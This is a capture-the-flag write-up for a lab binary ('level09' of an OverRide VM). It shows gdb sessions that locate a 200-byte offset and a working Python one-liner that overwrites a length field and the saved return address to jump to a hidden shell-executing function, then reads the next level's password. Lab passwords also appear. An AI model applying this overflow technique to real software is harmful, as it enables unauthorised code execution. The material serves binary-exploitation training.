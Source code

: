 # Overwrite RIP and jump to `secret_backdoor()`

```shell
┌──$ [~/42/2022/override]
└─>  ssh 192.168.56.101 -p 4242 -l level09
           ____                  ____  _     __
          / __ \_   _____  _____/ __ \(_)___/ /__
         / / / / | / / _ \/ ___/ /_/ / / __  / _ \
        / /_/ /| |/ /  __/ /  / _, _/ / /_/ /  __/
        \____/ |___/\___/_/  /_/ |_/_/\__,_/\___/

                       Good luck & Have fun

   To start, ssh with level00/level00 on 192.168.56.101:4242
level09@192.168.56.101's password: fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   /home/users/level09/level09
```

The program contains `secret_backdoor()` function which reads in at most 127 characters from `stdin` and stores them into the buffer pointed to by `command`. Then it executes  a command specified in `command` by calling `/bin/sh -c command`,

At first glance, return address must be overwritten in order to redirect flow of the program into `secret_backdoor()` function.

The function `set_msg()` calls `fgets` which reads 1024 bytes into the buffer of 128 bytes.

Then it copy at most len characters `buffer+180`, from source `str` into destination `buffer`.
```gdb
   0x5555555549a2 <set_msg+112>:	mov    rax,QWORD PTR [rbp-0x408]
=> 0x5555555549a9 <set_msg+119>:	mov    eax,DWORD PTR [rax+0xb4]
   0x5555555549af <set_msg+125>:	movsxd rdx,ea
```
The value of message length, `buffer+180` can be overwirtten using `username`.
With a large message there is possibility to overwrite saved RIP of `handle_msg()`

To find offset, calculate difference between `savedRIP` and the `buffer`:
```gdb
[...]
>: Enter your username
>>: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
>: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
�>: Msg @Unix-Dude
>>: BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
[...]
Breakpoint 7, 0x0000555555554924 in handle_msg ()
gdb-peda$ info frame
Stack level 0, frame at 0x7fffffffe580:
 rip = 0x555555554924 in handle_msg; saved rip 0x555555554abd
 called by frame at 0x7fffffffe590
 Arglist at 0x7fffffffe570, args:
 Locals at 0x7fffffffe570, Previous frame's sp is 0x7fffffffe580
 Saved registers:
  rbp at 0x7fffffffe570, rip at 0x7fffffffe578
gdb-peda$
gdb-peda$ x/52wx 0x7fffffffe4b0
0x7fffffffe4b0:	0x42424242	0x42424242	0x42424242	0x42424242
0x7fffffffe4c0:	0x42424242	0x42424242	0x42424242	0x42424242
0x7fffffffe4d0:	0x42424242	0x42424242	0x42424242	0x42424242
0x7fffffffe4e0:	0x42424242	0x42424242	0x42424242	0x42424242
0x7fffffffe4f0:	0x42424242	0x42424242	0x42424242	0x42424242
0x7fffffffe500:	0x42424242	0x42424242	0x42424242	0x42424242
0x7fffffffe510:	0x42424242	0x42424242	0x42424242	0x42424242
0x7fffffffe520:	0x42424242	0x42424242	0x42424242	0x42424242
0x7fffffffe530:	0x42424242	0x42424242	0x42424242	0x41414141
0x7fffffffe540:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffe550:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffe560:	0x0a414141	0x0000008c	0xffffe580	0x00007fff
0x7fffffffe570:	0xffffe580	0x00007fff	0x55554abd	0x00005555
0x7fffffffe580:	0x00000000	0x00000000	0xf7a3d7ed	0x00007fff
gdb-peda$ p/d 0x7fffffffe578-0x7fffffffe4b0
$33 = 200
gdb-peda$
```
```gdb
gdb-peda$ print secret_backdoor
$35 = {<text variable, no debug info>} 0x55555555488c <secret_backdoor>
```
By overwritting message length byte and using offset followed by the address of `secret_backdoor()` function, the flow of program can be modified.


## Exploit
```shell
level09@OverRide:~$ (python -c "import struct; print('\xff'*50 + '\n' + '\x55'*200 + struct.pack('Q', 0x55555555488c))"; echo 'cat /home/users/$(whoami)/.pass') | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, >: Msg @Unix-Dude
>>: >: Msg sent!
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
Segmentation fault (core dumped)
```
